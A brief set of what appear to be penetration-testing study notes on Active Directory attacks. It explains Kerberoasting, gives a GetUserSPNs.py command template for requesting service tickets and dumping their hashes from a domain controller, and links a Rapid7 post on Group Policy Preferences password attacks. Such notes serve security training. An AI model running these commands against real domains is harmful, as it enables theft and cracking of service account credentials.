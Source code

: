  
Goal of Kerberoasting: Get TGS and decrypt server's account hash

![Exported image](Exported%20image%2020241208212349-0.png)

Step 1: Get SPNs, Dump Hash
 
`python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <IP of DC> -request`
   

GPP /c Password Attacks Overview
   

[https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

![Exported image](Exported%20image%2020241208212354-3.png) ![Exported image](Exported%20image%2020241208212356-4.png)